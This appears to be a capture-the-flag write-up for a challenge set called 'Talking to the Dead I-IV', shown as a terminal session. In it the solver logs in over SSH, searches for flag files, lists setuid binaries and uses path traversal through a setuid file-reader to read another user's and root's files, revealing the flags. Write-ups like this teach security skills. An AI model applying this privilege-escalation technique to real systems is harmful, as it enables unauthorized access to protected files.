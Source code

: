 ## Selected Solutions

### Talking to the Dead I-IV

> We've obtained access to a server maintained by spookyboi. There are four flag files that we need you to read and submit (flag1.txt, flag2.txt, etc).
> ssh hacktober@env.hacktober.io
> Password: hacktober-Underdog-Truth-Glimpse

```
noble@heart:~$ ssh hacktober@env.hacktober.io # password: hacktober-Underdog-Truth-Glimpse
[...]

luciafer@c3c7bd493a55:~$ find / -name *flag?.txt 2>/dev/null
/home/luciafer/Documents/.flag2.txt
/home/luciafer/Documents/flag1.txt
/home/spookyboi/Documents/flag3.txt
/root/flag4.txt

luciafer@a3d72c103f14:/$ cat /home/luciafer/Documents/flag1.txt
flag{cb07e9d6086d50ee11c0d968f1e5c4bf1c89418c}
luciafer@9d60d705c926:/$ cat /home/luciafer/Documents/.flag2.txt
flag{728ec98bfaa302b2dfc2f716d3de7869f3eadcbf}
luciafer@9d60d705c926:/$ cat /home/spookyboi/Documents/flag3.txt
cat: /home/spookyboi/Documents/flag3.txt: Permission denied

luciafer@9d60d705c926:/$ find / -perm /4000 2>/dev/null
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/local/bin/ouija
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper

luciafer@9d60d705c926:/$ # what is ouija?

luciafer@9d60d705c926:/$ /usr/local/bin/ouija
OUIJA 6.66 - Read files in the /root directory
Usage: ouija [FILENAME]
EXAMPLES:
        ouija file.txt
        ouija read.me

luciafer@9d60d705c926:/$ /usr/local/bin/ouija ../home/spookyboi/Documents/flag3.txt
flag{445b987b5b80e445c3147314dbfa71acd79c2b67}

luciafer@9d60d705c926:/$ /usr/local/bin/ouija flag4.txt
flag{4781cbffd13df6622565d45e790b4aac2a4054dc}
```

